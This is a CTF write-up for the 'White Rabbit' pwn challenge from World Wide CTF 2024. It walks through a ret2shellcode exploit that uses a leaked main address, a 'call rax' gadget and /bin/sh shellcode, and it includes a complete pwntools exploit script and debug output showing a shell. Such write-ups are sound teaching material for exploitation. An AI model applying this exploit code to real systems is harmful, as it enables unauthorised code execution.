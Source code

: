 ```yaml
---
title: [WRITE UP] - World Wide CTF 2024 - White Rabbit
published: 2024-12-01
description: "Write up for White Rabbit challenge"
image: "./image.png"
tags: ["PWN", "2024"]
category: CTF Writeups
draft: false
---
```


![image.png](image.png)

### Description

> Just a nice easy warmup for you...
>

### Analysis

### General information

```bash
  (\\_/)
  ( •_•)
  / > 0x556bdd42d180

follow the white rabbit...
```

```bash
[*] '/home/alter/CTFs/WWF_2024/pwn/white_rabbit'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

So we can see here, the binary have no canary and the PIE is enabled. One more thing is `Stack` is executable and it leak the address each time we run the binary. So we can think about `ret2shellcode`

### Brain time

So my experience for this is just take that address and maybe we will need it, so this is my code for take that leak address:

```python
p.recvuntil(b'/ > ')
leak = int(p.recvline()[:-1], 16)
info("[+] Leak: " + hex(leak))
```

Just check what that address it leak is by using dynamic debugging. I'm breakpoint at `follow()` function. We can see our leak address in my case is `0x555555555180` (I have disabled `ASLR` for easier). When I look around there is the leak address of `main` function:

```python
gef➤  disas*main
Dump of assembler code for function main:
   0x0000555555555180 <+0>:     push   rbp
```

Or we can look at pseudocode in IDA:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("\\n  (\\\\_/)");
  puts(asc_200D);
  printf("  / > %p\\n\\n", main);
  puts("follow the white rabbit...");
  follow();
  return 0;
}
```

As said before, the idea of this is `ret2shellcode` so what we need to find is:

- Offset from input to RIP
- Gadget
- Craft shellcode

For the offset, it is a little bit easy so I will skip this

The next step involves identifying the gadget. To identify the gadget in a PIE (Position Independent Executable) binary, tools like `ROPgadget` and `ropper` are used. However, because PIE is enabled, these tools cannot display the absolute addresses of gadgets. Instead, they provide offsets relative to the binary's base address, which is determined only at runtime.

To work around this, I used `ROPchain` to find the gadget's offset. Then, I calculated its relative position by comparing the gadget’s offset to the address of the main function in the binary. To do this, I first disassembled the main function in GDB before running the binary, capturing its pre-loading address. Subtracting the gadget's offset from the main’s address gave me the relative offset, which remains consistent between local and remote execution of the binary due to the fixed layout enforced by PIE.

```
➜  pwn ROPgadget --binary white_rabbit | grep "call rax"
0x000000000000100d : add byte ptr [rax], al ; test rax, rax ; je 0x1016 ; call rax
0x0000000000001014 : call rax
0x0000000000001012 : je 0x1016 ; call rax
0x0000000000001010 : test eax, eax ; je 0x1016 ; call rax
0x000000000000100f : test rax, rax ; je 0x1016 ; call rax

```

```nasm
gef➤  disas*main
Dump of assembler code for function main:
   0x0000000000001180 <+0>:     push   rbp

```

So our gadget's offset is `0x1180` - `0x10bf`= `0xc1`. But why is `call rax`? Because in the `x86-64` calling convention, the return value of a function is typically stored in the `RAX` register. This convention applies to most functions, including standard library functions like `gets`.

The last one is shellcode, just basic `/bin/sh` shellcode:

```nasm
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
```

### Exploit

```python
#!/usr/bin/python3
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./white_rabbit', checksec=False)
def GDB(): gdb.attach(p, gdbscript='''

c
''') if not args.REMOTE else None

p = remote('', ) if args.REMOTE else process(argv=[exe.path], aslr=False)
set_p(p)
if args.GDB: GDB(); input()

# ===========================================================
#                          EXPLOIT
# ===========================================================

ru(b'/ > ')
leak = int(rl()[:-1], 16)
info("Leak: " + hex(leak))

gadget = leak - 0xc1
shellcode = asm("""
    push 0x3b
    pop rax

    mov rdi, 0x68732f6e69622f
    push rdi
    push rsp
    pop rdi

    cdq
    push rdx
    pop rsi

    syscall
""", arch="amd64")

pl = flat(
    shellcode.ljust(120, b'A'),
    p64(gadget)
    )

sl(pl)
interactive()

```

```bash
➜  pwn ./exploit.py
[+] Starting local process '/home/alter/CTFs/WWF_2024/pwn/white_rabbit': pid 12216
[!] ASLR is disabled!
[DEBUG] Received 0x47 bytes:
    00000000  0a 20 20 28  5c 5f 2f 29  0a 20 20 28  20 e2 80 a2  │·  (│\\_/)│·  (│ ···│
    00000010  5f e2 80 a2  29 0a 20 20  2f 20 3e 20  30 78 35 35  │_···│)·  │/ > │0x55│
    00000020  35 35 35 35  35 35 35 31  38 30 0a 0a  66 6f 6c 6c  │5555│5551│80··│foll│
    00000030  6f 77 20 74  68 65 20 77  68 69 74 65  20 72 61 62  │ow t│he w│hite│ rab│
    00000040  62 69 74 2e  2e 2e 0a                               │bit.│..·│
    00000047
[*] Leak: 0x555555555180
[DEBUG] cpp -C -nostdinc -undef -P -I/home/alter/.local/lib/python3.12/site-packages/pwnlib/data/includes /dev/stdin
[DEBUG] Assembling
    .section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        push 0x3b
        pop rax
        mov rdi, 0x68732f6e69622f
        push rdi
        push rsp
        pop rdi
        cdq
        push rdx
        pop rsi
        syscall
[DEBUG] /usr/bin/x86_64-linux-gnu-as -64 -o /tmp/pwn-asm-x8nkdsmx/step2 /tmp/pwn-asm-x8nkdsmx/step1
[DEBUG] /usr/bin/x86_64-linux-gnu-objcopy -j .shellcode -Obinary /tmp/pwn-asm-x8nkdsmx/step3 /tmp/pwn-asm-x8nkdsmx/step4
[DEBUG] Sent 0x81 bytes:
    00000000  6a 3b 58 48  bf 2f 62 69  6e 2f 73 68  00 57 54 5f  │j;XH│·/bi│n/sh│·WT_│
    00000010  99 52 5e 0f  05 41 41 41  41 41 41 41  41 41 41 41  │·R^·│·AAA│AAAA│AAAA│
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000070  41 41 41 41  41 41 41 41  bf 50 55 55  55 55 00 00  │AAAA│AAAA│·PUU│UU··│
    00000080  0a                                                  │·│
    00000081
[*] Switching to interactive mode

follow the white rabbit...
$ whoami
[DEBUG] Sent 0x7 bytes:
    b'whoami\\n'
[DEBUG] Received 0x6 bytes:
    b'alter\\n'
alter
```
